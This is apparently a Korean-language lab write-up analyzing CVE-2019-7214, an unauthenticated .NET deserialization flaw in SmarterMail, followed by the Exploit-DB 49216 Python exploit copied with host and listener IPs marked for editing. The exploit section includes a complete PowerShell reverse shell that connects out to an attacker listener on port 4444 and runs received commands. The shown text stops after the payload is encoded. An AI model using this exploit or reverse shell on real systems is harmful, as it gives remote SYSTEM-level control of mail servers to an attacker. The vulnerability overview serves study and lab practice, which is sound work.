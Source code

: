```yaml
---
title:  "CVE-2019-7214 Analysis "
excerpt: "CVE-2019-7214 분석과 활용법"

categories: cve
tags:
  - [cve, 'smartermail', '.NET remoting', windows]

typora-root-url: ../../
 
date: 2025-08-25
last_modified_at: 2025-08-25
---
```

## CVE-2019-7214 취약점 개요
**CVE-2019-7214** 
- 취약한 소프트웨어: SmarterTools SmarterMail 16.x 버전, 빌드 6985 이전
- 취약점 유형: .NET 객체 역직렬화 취약점 (Deserialization of Untrusted Data)
- 취약점 위치: SmarterMail이 사용하는 .NET Remoting Endpoint (기본 포트 17001)
- 취약점 설명:
  - 외부에서 역직렬화할 때 신뢰하지 않은 데이터가 처리되면서 임의의 코드를 실행할 수 있음
  - 인증이 필요 없으며, 공격자가 원격에서 서버 권한으로 명령어를 실행 가능
  - 공격 성공 시 NT AUTHORITY\SYSTEM 권한으로 완전한 서버 제어 가능
- 공격 경로
  - SmarterMail 서버의 17001 포트 (/Servers, /Mail, /Spool) 접근 통로를 통해 .NET 바이너리 포맷 데이터를 역직렬화하는 과정에서 발생
  - 이 포트를 원격에서 노출한 경우 큰 위험
- 영향
  - 원격 인증 없이 시스템 권한이 탈취될 수 있음

- 확인 사항: smarterMail 서비스가 `6985` 이전 빌드이고, 포트 17001 포트에서 `.NET remoting 서비스`가 실행중이어야 공격이 가능하다.

## Exploit 과정
```
└─$ searchsploit smartermail   

SmarterMail Build 6985 - Remote Code Execution | windows/remote/49216.py
[ . . . ]

┌──(kali㉿kali)-[~/Desktop/offsec/Algernon]
└─$ searchsploit -m 49216                
```
**CVE-2019-7214**
[49216-Exploit-DB](https://www.exploit-db.com/exploits/49216)


`$ vim 49216`
```python
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys 
from struct import pack

HOST='192.168.107.65'     // 해당 부분 변경
PORT=17001                // 해당 부분 변경
LHOST='192.168.45.237'    // 해당 부분 변경
LPORT=4444                // 해당 부분 변경

psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')

```
